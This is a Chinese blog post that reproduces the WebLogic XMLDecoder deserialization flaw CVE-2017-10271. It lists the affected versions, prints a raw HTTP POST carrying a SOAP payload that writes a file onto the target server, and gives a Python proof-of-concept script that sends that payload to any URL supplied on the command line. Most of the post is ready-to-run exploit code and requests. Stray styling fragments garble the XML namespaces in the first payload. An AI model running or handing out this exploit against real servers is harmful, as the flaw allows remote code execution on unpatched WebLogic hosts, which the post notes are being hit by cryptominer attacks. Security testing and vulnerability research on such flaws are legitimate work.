

# Weblogic(CVE-2017-10271)漏洞复现 - Bypass - 博客园

> 原文：[`www.cnblogs.com/xiaozi/p/8205107.html`](https://www.cnblogs.com/xiaozi/p/8205107.html)

WebLogic XMLDecoder 反序列化漏洞（CVE-2017-10271）

**漏洞编号**：CVE-2017-10271

**漏洞描述**：WebLogic WLS 组件中存在 CVE-2017-10271 远程代码执行漏洞，可以构造请求对运行 WebLogic 中间件的主机进行攻击，近期发现此漏洞的利用方式为传播挖矿程序。

**受影响 WebLogic 版本**：10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0。

**A、环境搭建**

不解释

**B、漏洞利用：**

1、初步判断：访问 http://192.168.8.148:7001/wls-wsat/CoordinatorPortType11，存在下图则说明可能存在漏洞


2、构造 POST 包进行测试，写入 test.txt

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1 Host: 192.168.8.148:7001 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 756

<soapenv:Envelope color: rgba(0, 128, 0, 1); text-decoration: underline">http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext color: rgba(0, 128, 0, 1); text-decoration: underline">http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>xmldecoder_vul_test</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
```

PS:wls-wsat 路径  /root/Oracle/Middleware//user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat/

3、访问 test.txt,漏洞验证成功


Python 验证脚本：

```
#!/usr/bin/env python
# coding:utf-8

import requests
from sys import argv

headers = {
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Upgrade-Insecure-Requests': '1',
	'Content-Type': 'text/xml'
    }
def Webogic_XMLDecoder_poc(url):
	#url="http://192.168.8.148:7001"
	posturl=url+'/wls-wsat/CoordinatorPortType'
	data = '''
	<soapenv:Envelope >
		<soapenv:Header>
			<work:WorkContext >
				<java version="1.6.0" class="java.beans.XMLDecoder">
					<object class="java.io.PrintWriter"> 
						<string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
						<string>xmldecoder_vul_test</string></void><void method="close"/>
					</object>
				</java>
			</work:WorkContext>
		</soapenv:Header>
		<soapenv:Body/>
	</soapenv:Envelope>
    '''

	print url
	try:
		r=requests.post(posturl,data=data,headers=headers,timeout=5)
		geturl=url+"/wls-wsat/test.txt"
		#print geturl
		check_result = requests.get(geturl,headers=headers,timeout=5)
		if 'xmldecoder_vul_test' in check_result.text:
			print u"存在 WebLogic WLS 远程执行漏洞(CVE-2017-10271)"
	except:
		pass

if __name__ == '__main__':
	if len(argv) == 1:
		print "Please input python Webogic_XMLDecoder_poc.py http://xxxx:7001"
		exit(0)
	else:
		url = argv[1]
	Webogic_XMLDecoder_poc(url)

```

验证截图：

 

最后

欢迎关注个人微信公众号：Bypass--，每周原创一篇技术干货。 



参考文章：

https://github.com/ysrc/xunfeng/blob/master/vulscan/vuldb/weblogic_CVE_2017_10271.py

http://www.cnblogs.com/sevck/p/8092760.html

 http://blog.csdn.net/qq_27446553/article/details/78952010